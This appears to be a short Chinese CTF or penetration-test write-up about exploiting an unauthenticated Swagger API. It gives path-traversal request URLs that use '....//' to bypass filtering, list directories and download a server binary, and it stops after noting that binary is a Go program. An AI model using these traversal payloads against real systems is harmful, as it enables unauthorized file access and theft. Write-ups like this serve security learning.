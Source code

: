 ```yaml
---
title: 一次swagger未授权的深入利用
tags:
  - CTF
  - Web安全
categories: Web安全
---
```








访问页面如下

![](../images/pics/打靶/37.jpg)



搜索栏里的地址替换为互联网地址，成功访问

![](../images/pics/打靶/38.jpg)





### 列目录接口

通过....//绕过
```
http://ip:port/api/v1/files?dirname=....//
```



### 文件下载接口

```
http://ip:port/api/v1/file?filename=....//main
```

下载了main程序。



下载下来是go程序，





















































































